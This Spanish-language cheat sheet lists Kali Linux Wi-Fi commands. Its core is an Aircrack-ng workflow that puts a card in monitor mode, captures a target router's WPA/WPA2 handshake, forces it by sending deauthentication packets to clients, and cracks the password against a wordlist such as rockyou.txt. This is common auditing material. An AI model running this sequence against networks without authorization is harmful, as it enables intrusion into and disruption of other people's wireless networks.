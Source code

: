 Comandos Útiles de Wi-Fi en Kali Linux
Esta es una lista de comandos comunes para gestionar y auditar redes Wi-Fi desde la terminal de Kali Linux.

IMPORTANTE: Necesitarás una tarjeta de red Wi-Fi que soporte el modo monitor para muchas de estas operaciones.

Gestión Básica de Interfaces
Ver interfaces de red (incluyendo Wi-Fi):

ip addr
# o
ifconfig

Ver interfaces inalámbricas y sus capacidades:

iwconfig

Habilitar o deshabilitar una interfaz:

# Deshabilitar
sudo ip link set wlan0 down
# Habilitar
sudo ip link set wlan0 up

Aircrack-ng Suite
La suite Aircrack-ng es fundamental para la auditoría de redes Wi-Fi.

1. Poner la tarjeta en Modo Monitor:

# Detener servicios que puedan interferir
sudo airmon-ng check kill

# Iniciar el modo monitor en la interfaz wlan0
sudo airmon-ng start wlan0

Esto creará una nueva interfaz, a menudo llamada wlan0mon.

2. Escanear redes Wi-Fi cercanas:

# Escanear en la interfaz en modo monitor
sudo airodump-ng wlan0mon

Presiona Ctrl+C para detener.

3. Capturar el Handshake WPA/WPA2:
Para romper una contraseña WPA/WPA2, necesitas capturar el "handshake" de 4 vías que ocurre cuando un cliente se conecta al punto de acceso.

# Escucha en un canal específico, filtra por BSSID y guarda la captura
sudo airodump-ng --bssid <BSSID_DEL_AP> -c <CANAL> -w captura wlan0mon

<BSSID_DEL_AP>: La dirección MAC del router objetivo.

<CANAL>: El canal en el que opera el router.

-w captura: Guarda los paquetes en archivos que empiezan con "captura".

4. (Opcional) Desautenticar un cliente para forzar el Handshake:
Si no quieres esperar a que un cliente se conecte, puedes forzar una desconexión.

# Envía paquetes de desautenticación
# -0 5: Envía 5 paquetes deauth
# -a <BSSID_AP>: El AP
# -c <MAC_CLIENTE>: El cliente a desconectar (opcional, si no se especifica, a todos)
sudo aireplay-ng -0 5 -a <BSSID_AP> -c <MAC_CLIENTE> wlan0mon

5. Crackear la contraseña con un diccionario:
Una vez que airodump-ng indique "WPA handshake: <BSSID>" en la esquina superior derecha, tienes la captura.

# -w /path/to/wordlist.txt: El diccionario
# captura-01.cap: El archivo .cap generado por airodump-ng
aircrack-ng -w /path/to/wordlist.txt captura-01.cap

Kali incluye listas de palabras en /usr/share/wordlists/. rockyou.txt.gz es una muy popular (necesitas descomprimirla).

Otros Comandos Útiles
Conectarse a una red Wi-Fi desde la terminal (usando nmcli):

# Ver redes disponibles
nmcli dev wifi list

# Conectarse a una red
sudo nmcli dev wifi connect "NombreDeLaRed" password "LaContraseña"

Ver información detallada de tu hardware inalámbrico:

sudo lshw -C network
